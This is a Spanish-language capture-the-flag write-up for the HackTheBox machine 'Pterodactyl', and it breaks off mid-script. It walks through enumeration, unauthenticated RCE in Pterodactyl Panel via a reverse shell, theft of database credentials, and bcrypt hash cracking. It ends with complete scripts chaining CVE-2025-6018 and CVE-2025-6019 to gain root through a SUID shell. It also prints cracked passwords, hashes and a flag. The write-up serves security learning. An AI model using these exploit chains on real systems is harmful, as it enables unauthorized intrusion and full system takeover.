







# Pterodactyl HackTheBox (Intermediate)

## Contexto de la maquina

### Trayectoria Pterodactyl

<figure><figcaption></figcaption></figure>

### Descripción

**Pterodactyl** es una máquina Linux orientada a **explotación web y escalada de privilegios avanzada**, basada en el panel de gestión **Pterodactyl**. El reto combina enumeración web, explotación de un **RCE autenticado/no autenticado**, abuso de credenciales almacenadas en base de datos y una **escalada de privilegios compleja** mediante el encadenamiento de vulnerabilidades recientes en **PAM, systemd-logind, polkit y UDisks2**.

**Objetivo del reto**

Obtener acceso inicial al sistema, escalar privilegios hasta `root` y recuperar las flags de usuario y root.

**Tipo de máquina**

* Linux
* Web
* Privilege Escalation avanzada

**Habilidades y técnicas evaluadas**

* Enumeración de servicios y virtual hosts
* Explotación de CVEs en aplicaciones web
* Obtención de shells remotas
* Análisis de configuración de aplicaciones
* Cracking de hashes bcrypt
* Abuso de servicios del sistema (PAM, polkit, UDisks2)
* Encadenamiento de vulnerabilidades recientes

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos realizando un escaneo completo de puertos TCP para identificar los servicios expuestos en la máquina objetivo.

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Una vez identificados los puertos abiertos, lanzamos un escaneo más detallado sobre ellos para obtener versiones y scripts por defecto.

```shell
nmap -sCV -p<PORTS> <IP>
```

Resultado:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-08 02:08 -0500
Nmap scan report for 10.129.4.86
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
|_  256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
80/tcp open  http    nginx 1.21.5
|_http-server-header: nginx/1.21.5
|_http-title: Did not follow redirect to http://pterodactyl.htb/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.70 seconds
```

Observamos únicamente dos servicios expuestos. El puerto **80** redirige a un dominio virtual, por lo que lo añadimos al archivo `hosts`.

```shell
nano /etc/hosts

#Dentro del nano
<IP>          pterodactyl.htb
```

Accedemos al dominio:

```
URL = http://pterodactyl.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

La página corresponde a un portal relacionado con un servidor de **Minecraft**. No se observa funcionalidad sensible a simple vista, por lo que continuamos con enumeración activa.

## Enumeración web

### Gobuster

```shell
gobuster dir -u http://pterodactyl.htb/ -w <WORDLIST> -x html,txt,php -t 100 -r -k
```

Respuesta:

```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://pterodactyl.htb/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              html,txt,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
# license, visit http://creativecommons.org/licenses/by-sa/3.0/.html (Status: 403) [Size: 153]
index.php            (Status: 200) [Size: 1686]
changelog.txt        (Status: 200) [Size: 920]
Public               (Status: 403) [Size: 153]
phpinfo.php          (Status: 200) [Size: 73007]
....
```

No se identifican endpoints críticos, por lo que pasamos a enumerar **subdominios**.

### FFUF (fuzzing de subdominios)

<figure><figcaption></figcaption></figure>

```shell
ffuf -c -t 200 -w <WORDLIST> -H "Host: FUZZ.pterodactyl.htb" -u http://pterodactyl.htb/ -fw 3
```

Respuesta:

```

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://pterodactyl.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Header           : Host: FUZZ.pterodactyl.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 3
________________________________________________

panel                   [Status: 200, Size: 1897, Words: 490, Lines: 36, Duration: 476ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Añadimos el subdominio al archivo `hosts`:

```shell
nano /etc/hosts

#Dentro del nano
<IP>          pterodactyl.htb panel.pterodactyl.htb
```

Accedemos a:

```
URL = http://panel.pterodactyl.htb/
```

Respuesta:

<figure><figcaption></figcaption></figure>

Encontramos un **panel de login** claramente identificado como **Pterodactyl Panel**.

## Ejecución remota de comandos – CVE-2025-49132

Investigando vulnerabilidades asociadas a **Pterodactyl Panel**, identificamos la **CVE-2025-49132**, una vulnerabilidad crítica que permite la **ejecución remota de comandos sin autenticación** a través del endpoint `/panel`.

Esta vulnerabilidad afecta a determinadas versiones del panel y permite al atacante inyectar código que se ejecuta directamente en el servidor web con los privilegios del usuario que corre el servicio.

Referencia oficial:

URL = [CVE-2025-49132 Info](https://github.com/advisories/GHSA-24wv-6c99-f843)

Tras confirmar que nuestro objetivo utiliza **Pterodactyl Panel** y expone el subdominio `panel.pterodactyl.htb`, procedemos a buscar un **PoC funcional**.

Repositorio inicial utilizado:

URL = [Exploit CVE-2025-49132 GitHub](https://github.com/GRodolphe/CVE-2025-49132_poc)

## Escalada al usuario `wwwrun`

### Explotación de CVE-2025-49132

Clonamos el repositorio del exploit:

```shell
git clone https://github.com/GRodolphe/CVE-2025-49132_poc.git
cd CVE-2025-49132_poc/
```

Dentro del repositorio encontramos un script en **Python** que automatiza la explotación de la vulnerabilidad. Lo ejecutamos adaptándolo a nuestro entorno:

```shell
python3 poc.py --host panel.pterodactyl.htb --command 'whoami'
```

Respuesta:

```
CVE-2025-49132 PoC
====================================
[+] Creating payload on panel.pterodactyl.htb...
[+] Executing command: whoami
[+] Exploit executed successfully
[+] Output:
{"..\/..\/..\/..\/..\/tmp":{"payload":[]}}
```

El exploit se ejecuta correctamente, confirmando que el objetivo es vulnerable. Sin embargo, el **output del comando no se refleja**, lo que indica que el PoC ejecuta código pero no devuelve correctamente la salida estándar.

Por este motivo, decidimos buscar un **PoC alternativo** que permita obtener una shell interactiva.

### PoC alternativo con reverse shell

Tras investigar diferentes fuentes y probar múltiples variantes, encontramos un exploit más completo y estable:

URL = [GitHub Exploit CVE](https://github.com/ramzihafiz/CVE-2025-49132/blob/main/CVE-2025-49132_POC.py)

Este exploit fue localizado a través del siguiente agregador de exploits:

URL = [Publicaciones Exploits CVE](https://vulners.com/githubexploit/D231A4D4-7F3A-5BE2-B65F-DFA0955AA266)

Descargamos el archivo `CVE-2025-49132_POC.py` y realizamos pequeñas modificaciones para adaptarlo a nuestro escenario, configurando el **dominio objetivo**, nuestra **IP atacante** y el **puerto de escucha**.

Fragmento relevante del código modificado:

```python
pear_path = "/usr/share/php/PEAR" # Path to PEAR on target system (can be different based on system)
your_ip = "<IP_ATTACKER>" # Change this to your listener IP
your_port = "<PORT_ATTACKER>" # Change this to your listener port
host="panel.pterodactyl.htb" # Change this to your target host
```

### Ejecución del exploit

Antes de ejecutar el exploit, nos ponemos a la escucha en nuestra máquina atacante:

```shell
nc -lvnp <PORT>
```

A continuación, lanzamos el exploit:

```shell
python3 CVE-2025-49132_POC.py
```

Salida del exploit:

```
[+]Begin Creating Webshell..
[+]Begin Decoding Webshell..
[+]Webshell Created Successfully..
Done ! Check your listener now..
```

Shell recibida:

```
listening on [any] 7777 ...
connect to [10.10.14.161] from (UNKNOWN) [10.129.11.113] 45990
bash: cannot set terminal process group (1214): Inappropriate ioctl for device
bash: no job control in this shell
wwwrun@pterodactyl:/var/www/pterodactyl/public> whoami
whoami
wwwrun
```

Con esto confirmamos que la explotación ha sido **exitosa**, obteniendo una **reverse shell** como el usuario **`wwwrun`**, que corresponde al usuario bajo el cual se ejecuta el servicio web.

### Sanitización de la shell (TTY)

Para mejorar la estabilidad e interacción de la shell, procedemos a su sanitización:

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una vez con la shell estabilizada, accedemos al directorio `home` del usuario `phileasfogg3` y leemos la flag.

> user.txt

```
2fd66cb1a9db435bafa681ced7c4073d
```

## Escalate user phileasfogg3

<figure><figcaption></figcaption></figure>

Una vez obtenida la shell como el usuario `wwwrun`, continuamos con la enumeración del sistema. Al tratarse de una aplicación web basada en **Pterodactyl**, resulta lógico revisar los archivos de configuración relacionados con la base de datos para identificar posibles credenciales reutilizables.

Comenzamos inspeccionando el archivo de configuración de la base de datos:

```shell
cat /var/www/pterodactyl/config/database.php
```

Respuesta:

```
'mysql' => [
            'driver' => 'mysql',
            'url' => env('DATABASE_URL'),
            'host' => env('DB_HOST', '127.0.0.1'),
            'port' => env('DB_PORT', '3306'),
            'database' => env('DB_DATABASE', 'panel'),
            'username' => env('DB_USERNAME', 'pterodactyl'),
            'password' => env('DB_PASSWORD', ''),
            'unix_socket' => env('DB_SOCKET', ''),
            'charset' => 'utf8mb4',
            'collation' => 'utf8mb4_unicode_ci',
            'prefix' => env('DB_PREFIX', ''),
            'prefix_indexes' => true,
            'strict' => env('DB_STRICT_MODE', false),
            'timezone' => env('DB_TIMEZONE', Time::getMySQLTimezoneOffset(env('APP_TIMEZONE', 'UTC'))),
            'sslmode' => env
```

Observamos que el usuario configurado es `pterodactyl` y que la contraseña no está definida directamente en este archivo. Sin embargo, las credenciales reales se obtienen desde variables de entorno, normalmente almacenadas en el archivo `.env`.

Procedemos a revisar dicho archivo y filtramos las variables relacionadas con la base de datos:

```shell
cat /var/www/pterodactyl/.env | grep -i "db_\|database"
```

Respuesta:

```
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=panel
DB_USERNAME=pterodactyl
DB_PASSWORD=PteraPanel
```

Aquí encontramos credenciales válidas para conectarnos a la base de datos MySQL/MariaDB.

### Acceso a la base de datos

Utilizando las credenciales obtenidas, nos conectamos a la base de datos local:

```shell
mysql -h 127.0.0.1 -u pterodactyl -pPteraPanel
```

Respuesta:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 110
Server version: 11.8.3-MariaDB MariaDB package

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Una vez dentro, listamos las bases de datos disponibles:

```mysql
show databases;
```

Respuesta:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| panel              |
| test               |
+--------------------+
3 rows in set (0.001 sec)
```

La base de datos `panel` es la que utiliza Pterodactyl, por lo que accedemos a ella y enumeramos sus tablas:

```mysql
use panel;
show tables;
```

Respuesta:

```
+-----------------------+
| Tables_in_panel       |
+-----------------------+
| activity_log_subjects |
| activity_logs         |
| allocations           |
| api_keys              |
| api_logs              |
| audit_logs            |
| backups               |
| database_hosts        |
| databases             |
| egg_mount             |
| egg_variables         |
| eggs                  |
| failed_jobs           |
| jobs                  |
| locations             |
| migrations            |
| mount_node            |
| mount_server          |
| mounts                |
| nests                 |
| nodes                 |
| notifications         |
| password_resets       |
| recovery_tokens       |
| schedules             |
| server_transfers      |
| server_variables      |
| servers               |
| sessions              |
| settings              |
| subusers              |
| tasks                 |
| tasks_log             |
| user_ssh_keys         |
| users                 |
+-----------------------+
35 rows in set (0.001 sec)
```

Entre todas las tablas, la que más nos interesa es `users`, ya que almacena la información de autenticación de los usuarios del panel.

### Enumeración de usuarios

Consultamos el contenido de la tabla `users`:

```mysql
select * from users;
```

Respuesta:

```
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
| id | external_id | uuid                                 | username     | email                        | name_first | name_last | password                                                     | remember_token                                               | language | root_admin | use_totp | totp_secret | totp_authenticated_at | gravatar | created_at          | updated_at          |
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
|  2 | NULL        | 5e6d956e-7be9-41ec-8016-45e434de8420 | headmonitor  | headmonitor@pterodactyl.htb  | Head       | Monitor   | $2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2 | OL0dNy1nehBYdx9gQ5CT3SxDUQtDNrs02VnNesGOObatMGzKvTJAaO0B1zNU | en       |          1 |        0 | NULL        | NULL                  |        1 | 2025-09-16 17:15:41 | 2025-09-16 17:15:41 |
|  3 | NULL        | ac7ba5c2-6fd8-4600-aeb6-f15a3906982b | phileasfogg3 | phileasfogg3@pterodactyl.htb | Phileas    | Fogg      | $2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi | 6XGbHcVLLV9fyVwNkqoMHDqTQ2kQlnSvKimHtUDEFvo4SjurzlqoroUgXdn8 | en       |          0 |        0 | NULL        | NULL                  |        1 | 2025-09-16 19:44:19 | 2025-11-07 18:28:50 |
+----+-------------+--------------------------------------+--------------+------------------------------+------------+-----------+--------------------------------------------------------------+--------------------------------------------------------------+----------+------------+----------+-------------+-----------------------+----------+---------------------+---------------------+
2 rows in set (0.001 sec)
```

Identificamos dos usuarios registrados, ambos con contraseñas almacenadas mediante **bcrypt**. Procedemos a extraer los hashes para intentar crackearlos offline.

### Crackeo de hashes

Creamos un archivo con los hashes obtenidos:

> crack.txt

```
headmonitor:$2y$10$3WJht3/5GOQmOXdljPbAJet2C6tHP4QoORy1PSj59qJrU0gdX5gD2
phileasfogg3:$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi
```

Lanzamos `john` especificando el formato bcrypt:

```shell
john --format=bcrypt --wordlist=<WORDLIST> crack.txt
```

Respuesta:

```
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx         (phileasfogg3)
1g 0:00:14:56 0.85% (ETA: 2026-02-11 12:01) 0.001115g/s 161.5p/s 177.0c/s 177.0C/s willow7..white7
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

Hemos conseguido crackear la contraseña del usuario `phileasfogg3`.

### Acceso por SSH

Con la contraseña obtenida, accedemos al sistema mediante SSH:

```shell
ssh phileasfogg3@<IP>
```

Introducimos la contraseña `!QAZ2wsx` y verificamos el acceso:

```
phileasfogg3@pterodactyl:~> whoami
phileasfogg3
```

Con esto obtenemos acceso legítimo como el usuario `phileasfogg3`.

## Escalada de privilegios

Tras realizar una enumeración más profunda del sistema, observamos la existencia de un buzón de correo local asociado al usuario.

Podemos confirmarlo mediante las variables de entorno:

```
env
```

Respuesta:

```
.................................<RESTO DE INFO>...................................
MAIL=/var/spool/mail/phileasfogg3
.................................<RESTO DE INFO>...................................
```

Procedemos a leer el contenido del correo:

```shell
cat /var/spool/mail/phileasfogg3
```

Respuesta:

```
From headmonitor@pterodactyl Fri Nov 07 09:15:00 2025
Delivered-To: phileasfogg3@pterodactyl
Received: by pterodactyl (Postfix, from userid 0)
id 1234567890; Fri, 7 Nov 2025 09:15:00 +0100 (CET)
From: headmonitor headmonitor@pterodactyl
To: All Users all@pterodactyl
Subject: SECURITY NOTICE — Unusual udisksd activity (stay alert)
Message-ID: 202511070915.headmonitor@pterodactyl
Date: Fri, 07 Nov 2025 09:15:00 +0100
MIME-Version: 1.0
Content-Type: text/plain; charset="utf-8"
Content-Transfer-Encoding: 7bit

Attention all users,

Unusual activity has been observed from the udisks daemon (udisksd). No confirmed compromise at this time, but increased vigilance is required.

Do not connect untrusted external media. Review your sessions for suspicious activity. Administrators should review udisks and system logs and apply pending updates.

Report any signs of compromise immediately to headmonitor@pterodactyl.htb

— HeadMonitor
System Administrator
```

Este correo es especialmente relevante, ya que menciona explícitamente **actividad inusual en el servicio `udisksd`**, lo que apunta claramente a la existencia de una vulnerabilidad relacionada con **UDisks**.

Tras investigar vulnerabilidades recientes asociadas a este servicio, identificamos la **CVE-2025-6019**, una vulnerabilidad de escalada de privilegios que afecta a **UDisks2** en combinación con **polkit**.

### CVE-2025-6018 / CVE-2025-6019

<figure><figcaption></figcaption></figure>

> Estas vulnerabilidades afectan a **PAM / systemd-logind** (CVE-2025-6018) y a **UDisks2 + polkit** (CVE-2025-6019).

Encontré un repositorio en GitHub que explica muy bien cómo aprovechar ambas vulnerabilidades de forma encadenada:

URL = [Exploit CVE-2025-6018/CVE-2025-6019 GitHub](https://github.com/MichaelVenturella/CVE-2025-6018-6019-PoC/tree/main)

### Contexto general de la vulnerabilidad

La **CVE-2025-6019**, que es la que permite finalmente ejecutar acciones privilegiadas, **depende de que el sistema considere nuestra sesión como una sesión “activa”**.\
Cuando nos conectamos por SSH, el sistema normalmente **no considera la sesión como activa/local**, por lo que **polkit deniega las acciones sensibles** relacionadas con discos y dispositivos.

Por este motivo, **no podemos explotar directamente la CVE-2025-6019** desde una sesión SSH estándar.

Aquí es donde entra en juego la **CVE-2025-6018**, que nos permite **manipular las variables de entorno cargadas por PAM** para que nuestra sesión SSH sea tratada como una **sesión local activa**, habilitando así los permisos necesarios para explotar la CVE-2025-6019.

### CVE-2025-6018 – PAM Environment Injection

La CVE-2025-6018 permite **inyectar variables de entorno relacionadas con la sesión** mediante el archivo `~/.pam_environment`.\
Este archivo es leído por PAM **al iniciar sesión**, y debido a una validación incorrecta, es posible forzar valores que normalmente solo existirían en una sesión local real.

Creamos el siguiente archivo en nuestro directorio HOME:

```shell
# Crear archivo .pam_environment en tu home
cat > ~/.pam_environment << 'EOF'
# CVE-2025-6018 Exploit - PAM Environment Injection
XDG_SEAT OVERRIDE=seat0
XDG_VTNR OVERRIDE=1
XDG_SESSION_TYPE OVERRIDE=x11
XDG_SESSION_CLASS OVERRIDE=user
XDG_RUNTIME_DIR OVERRIDE=/tmp/runtime_$(whoami)
EOF
```

Estas variables indican al sistema que:

* La sesión pertenece al **seat principal (`seat0`)**
* Está asociada a una **terminal virtual local (`VT 1`)**
* Es una sesión **interactiva de usuario**
* Dispone de un directorio de runtime válido

Aunque realmente estamos conectados por SSH, **systemd-logind acepta estos valores** y los asocia a la sesión tras volver a iniciar sesión.

Para que PAM vuelva a cargar estas variables, cerramos la sesión SSH y nos conectamos de nuevo:

### Verificación de la sesión activa

Una vez reconectados, verificamos el estado de la sesión con:

```shell
loginctl show-session $XDG_SESSION_ID
```

Respuesta:

```
WARNING: terminal is not fully functional
Press RETURN to continue 
Id=297
User=1002
Name=phileasfogg3
Timestamp=Tue 2026-02-10 17:37:28 EET
TimestampMonotonic=17579957838
VTNr=1
Seat=seat0
TTY=pts/1
Remote=yes
RemoteHost=10.10.14.161
Service=sshd
Scope=session-297.scope
Leader=19507
Audit=297
Type=tty
Class=user
Active=yes
State=active
IdleHint=no
IdleSinceHint=1770737857752276
IdleSinceHintMonotonic=17589110862
LockedHint=no
```

Esto confirma que la sesión ha sido registrada como **activa**, lo cual es un requisito fundamental para que **polkit autorice operaciones privilegiadas** en la siguiente fase del ataque.

### CVE-2025-6019 – UDisks2 / polkit Privilege Escalation

<figure><figcaption></figcaption></figure>

Con la sesión marcada como activa, ya es posible explotar la CVE-2025-6019, que afecta a **UDisks2**, un servicio del sistema encargado de gestionar dispositivos de almacenamiento.

Esta vulnerabilidad permite, mediante una **condición de carrera durante operaciones de redimensionado de sistemas de ficheros**, ejecutar código con privilegios elevados.

Para ello, prepararemos dos componentes:

1. Una **imagen de disco maliciosa** que contiene una shell SUID
2. Un **binario que monitoriza montajes** para explotar la ventana de tiempo vulnerable

### Preparación del exploit (máquina atacante)

En la máquina atacante creamos el script `build_poc.sh`, que automatiza la creación de ambos componentes:

***

> build\_poc.sh

```bash
#!/bin/bash
# Run this on KALI.
# It creates 'exploit.img' and 'catcher' to upload to the target.

echo "[*] Building CVE-2025-6018/6019 PoC..."

# 1. Compile Static SUID Shell Wrapper
# This ensures the shell works on any target regardless of glibc version.
cat << 'EOF' > shell.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
    setuid(0); setgid(0);
    system("/bin/bash -p");
    return 0;
}
EOF
gcc shell.c -o rootbash -static
echo "[+] Compiled static rootbash."

# 2. Create and Format the Image
dd if=/dev/zero of=exploit.img bs=1M count=400 status=none
# Check if mkfs.xfs exists
if ! command -v mkfs.xfs &> /dev/null; then
    echo "[-] mkfs.xfs missing. Install with: apt install xfsprogs"
    exit 1
fi
mkfs.xfs -f exploit.img >/dev/null
echo "[+] Created XFS image."

# 3. Inject the SUID Shell
mkdir -p mnt_poc
sudo mount exploit.img mnt_poc
sudo cp rootbash mnt_poc/rootbash
sudo chmod 4755 mnt_poc/rootbash
sudo umount mnt_poc
rm -rf mnt_poc shell.c rootbash
echo "[+] Injected SUID shell into image."

# 4. Compile the Catcher
# This C program wins the race condition by monitoring /proc/mounts
cat << 'EOF' > catcher.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    printf("[*] Sniper started. Waiting for ANY loop mount...\n");
    while (1) {
        FILE *fp = fopen("/proc/mounts", "r");
        if (fp) {
            char line[2048];
            while (fgets(line, sizeof(line), fp)) {
                // Look for loop device NOT in standard /run/media
                if (strstr(line, "/dev/loop") && !strstr(line, "/run/media")) {
                    char *path = strtok(line, " "); // dev
                    path = strtok(NULL, " ");       // mountpoint
                    
                    printf("\n[!!!] HIT! Mounted at: %s\n", path);
                    char cmd[1024];
                    snprintf(cmd, sizeof(cmd), "%s/rootbash -p", path);
                    system(cmd);
                    exit(0);
                }
            }
            fclose(fp);
        }
    }
}
EOF
gcc catcher.c -o catcher -static
rm catcher.c
echo "[+] Compiled static catcher."

echo ""
echo "[SUCCESS] Upload 'exploit.img' and 'catcher' to the target /tmp folder."
```

***

#### 1. Compilación de la shell SUID

Se compila una shell estática que fuerza UID y GID a `0` y ejecuta `/bin/bash -p`.\
Posteriormente se marcará con el bit **SUID**, permitiendo que se ejecute como `root` cuando sea invocada desde el contexto vulnerable.

#### 2. Creación de la imagen XFS

Se crea una imagen de disco vacía, se formatea como **XFS** y se monta localmente para inyectar el binario SUID.

#### 3. Inyección de la shell

El binario SUID se copia dentro de la imagen y se establecen los permisos `4755`.

#### 4. Compilación del catcher

El `catcher` es un binario estático que monitoriza `/proc/mounts` en bucle hasta detectar un dispositivo `loop` montado fuera de las rutas habituales.\
En el momento en que detecta el montaje vulnerable, ejecuta inmediatamente la shell SUID.

El script se ejecuta de la siguiente forma:

```shell
apt install xfsprogs
sudo bash build_poc.sh
```

Respuesta:

```
[*] Building CVE-2025-6018/6019 PoC...
[+] Compiled static rootbash.
```

Esto generará los archivos:

* `exploit.img`
* `catcher`

### Transferencia de archivos a la máquina víctima

Desde la máquina atacante:

```shell
python3 -m http.server 80
```

Desde la máquina víctima:

```shell
cd /tmp
wget http://<IP>/catcher
wget http://<IP>/exploit.img
```

### Ejecución del exploit en la máquina víctima

Creamos el script `exploit.sh`, que coordina toda la explotación de la `CVE-2025-6019`.

***

> exploit.sh

```bash
#!/bin/bash
# Run this on the TARGET (Pterodactyl).
# Usage: ./pwn.sh

# --- Configuration ---
IMAGE="$(pwd)/exploit.img"
CATCHER="./catcher"
# ---------------------

# 1. Force Active Session (CVE-2025-6018)
# We check if we are active. If not, we set up the bypass.
SESSION=$(loginctl show-session $XDG_SESSION_ID | grep "Active=yes")
if [[ -z "$SESSION" ]]; then
    echo "[!] Session is NOT Active. Setting up PAM bypass..."
    
    # Create the malicious PAM environment file
    echo "XDG_SEAT=seat0" > ~/.pam_environment
    echo "XDG_VTNR=1" >> ~/.pam_environment
    
    echo "[!] Bypass installed. You MUST log out and log back in for this to take effect."
    echo "    Run: logout"
    echo "    Then SSH back in and run this script again."
    exit 1
else
    echo "[+] Session is Active. Polkit bypass enabled."
fi

# 2. Permissions Check
chmod +x $CATCHER
if [[ ! -f "$IMAGE" ]]; then
    echo "[!] exploit.img not found!"
    exit 1
fi

# 3. Create the Background Trigger
# We create a temporary script that waits 2 seconds, sets up the loop, then fires.
cat << EOF > .trigger_bg.sh
#!/bin/bash
sleep 2
echo "[*] (BG) Setting up loop device..."
# Setup loop (Active session allows this without password)
LOOP_OUT=\$(udisksctl loop-setup -f "$IMAGE" 2>&1)
LOOP_DEV=\$(echo "\$LOOP_OUT" | awk '{print \$NF}' | tr -d '.')

if [[ \$LOOP_OUT != *"Mapped file"* ]]; then
    echo "[!] (BG) Loop setup failed: \$LOOP_OUT"
    exit 1
fi

DEV_NAME=\$(basename "\$LOOP_DEV")
DBUS_PATH="/org/freedesktop/UDisks2/block_devices/\$DEV_NAME"

echo "[*] (BG) Triggering Resize on \$DBUS_PATH..."
# Trigger the resize (CVE-2025-6019)
gdbus call --system --dest org.freedesktop.UDisks2 \\
    --object-path "\$DBUS_PATH" \\
    --method org.freedesktop.UDisks2.Filesystem.Resize 420480256 "{}" \\
    > /dev/null 2>&1
EOF
chmod +x .trigger_bg.sh

# 4. Run the Exploit
echo "[*] Starting Background Trigger (Wait 2s)..."
./.trigger_bg.sh &

echo "[*] Starting Foreground Catcher..."
echo "[*] HOLD TIGHT. ROOT SHELL INCOMING."
